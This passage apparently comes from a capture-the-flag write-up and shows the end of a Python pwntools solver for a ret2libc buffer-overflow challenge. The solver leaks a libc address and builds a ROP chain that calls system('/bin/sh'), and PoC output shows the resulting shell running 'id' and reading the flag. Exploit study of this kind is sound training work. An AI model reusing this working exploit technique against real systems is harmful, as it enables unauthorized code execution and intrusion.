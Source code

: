 ```python
  print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
  libc.address = leak - libc.sym.puts
  print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
  
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft payload to call system("/bin/sh") and spawn shell
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()


def pwn():
  # Find the overflow offset
  offset = 72
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  ret2libc(r, prompt, offset)

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/challenge6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 22 cached gadgets for './challenge6'
[*] '/home/w3th4nds/github/Thesis/challenge6/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
[+] Leaked address    @ 0x7f8e98fd6aa0
[+] Libc base address @ 0x7f8e98f56000
 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{r3t2l1bC_1s_c00L!}$ 
```
